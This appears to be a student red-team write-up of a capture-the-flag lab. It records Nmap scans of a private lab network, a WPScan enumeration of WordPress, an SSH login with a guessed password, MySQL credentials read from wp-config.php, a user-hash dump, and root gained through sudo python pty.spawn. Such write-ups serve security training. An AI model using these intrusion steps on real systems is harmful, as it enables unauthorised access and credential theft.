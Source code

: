 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
Nmap scan report for 192.168.1.105\
Host is up (0.00052s latency).\
Not shown: 998 closed ports\

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

![NMAP network scan](images/1 NMAP network scan.png)

---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)



### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

![alt text](image.jpg)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
      - wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        
        


![alt text](image.jpg)


      flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
      - _TODO: Include the command run_
        find / -iname flag*
        cd /var/www
        cat flag2.txt

      ![alt text](image.jpg)
      
      
      flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
      - _TODO: Include the command run_
      mysql -u root -p -h 127.0.0.1
      use wordpress;
      show tables
      select * from wp_comments
      select * from wp_users

      ![alt text](image.jpg)
      
      flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt

      - _TODO: Include the command run_
      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt


      ![alt text](image.jpg)

